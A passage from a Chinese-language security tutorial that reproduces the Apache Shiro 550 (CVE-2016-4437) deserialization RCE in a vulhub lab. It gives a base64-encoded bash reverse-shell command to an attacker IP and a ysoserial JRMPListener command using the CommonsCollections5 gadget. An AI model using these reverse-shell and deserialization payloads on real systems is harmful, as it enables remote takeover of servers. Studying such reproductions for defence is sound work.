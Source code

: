 #  JAVA常见漏洞复现  
quan9i  知微守望   2025-07-03 09:40  
  
# Shiro  
## Shiro 550  
### 漏洞原理  
  
**Shiro550**  
漏洞原理是Shiro框架提供了一种记住密码(Rememberme)的功能，用户登录成功后会生成经过加密的Cookie值，对Remembe的Cookie进行AES解密、Base64解密后再反序列化，就导致了反序列化RCE漏洞 。 Shiro<1.2.4版本，其使用的密钥为固定密钥Shiro550kPH+bIxk5D2deZiIxcaaaA==  
，这就更容易导致RCE漏洞  
### 漏洞复现  
  
用vulhub复现  
```
cd vulhub/shiro/CVE-2016-4437
```  
  
而后开启服务  
```
docker-compose up -d //-d是后台运行，加不加皆可
```  
  
![image-20230418233245340](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5BhpMITg7bku4uZ3Y375ArV2uib4S582ic46LFsGHRaIM4sEGwNDuvECg/640?wx_fmt=png&from=appmsg "")  
  
访问  
  
![image-20230418233350484](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5GapE0NbbHSXvwJ1SqHERY7N2eWqCbmRse0Nu00cJN2O6g6vd0jb8Og/640?wx_fmt=png&from=appmsg "")  
#### 脚本  
  
攻击端开启监听  
  
![image-20230418235121526](https://mmbiz.qpic.cn/mmbiz_png/n2rSqJSRAVyur6ib7hCrUaib9GVDnc1EK5ZNCWHwFeNzJSIE4perclZdjG9sqnav4vjLQxQqc2Q27dNXib2icm5bbw/640?wx_fmt=png&from=appmsg "")  
  
而后构造反弹shell语句，在线生成编码后的反弹shell网站  
  
https://ares-x.com/tools/runtime-exec  
```
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQ==}|{base64,-d}|{bash,-i}//bash -c {echo,bash -i >& /dev/tcp/192.168.1.129/6666 0>&1}|{base64,-d}|{bash,-i}
```  
  
而后通过ysoserial  
工具的JRMP监听6666端口并执行反弹shell指令  
  
**这里我们相当于在攻击机上启动了一个VPS服务，监听7777端口，然后在这个服务上放了一个反弹shell的payload，并用序列化工具ysoserial指定 CommonsCollections5 利用链生成可执行bash -i >& /dev/tcp/192.168.200.131/6666 0>&1命令的序列化数据payload1。当后面有客户端请求服务时，我们搭建的这个JRMP就会返回这段payload1。**  
```
java -cp ysoserial-all.jar ysoserial.exploit.JRMPListener7777CommonsCollections5"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjEuMTI5LzY2NjYgMD4mMQo=}|{base64,-d}|{bash,-i}"
```  
  
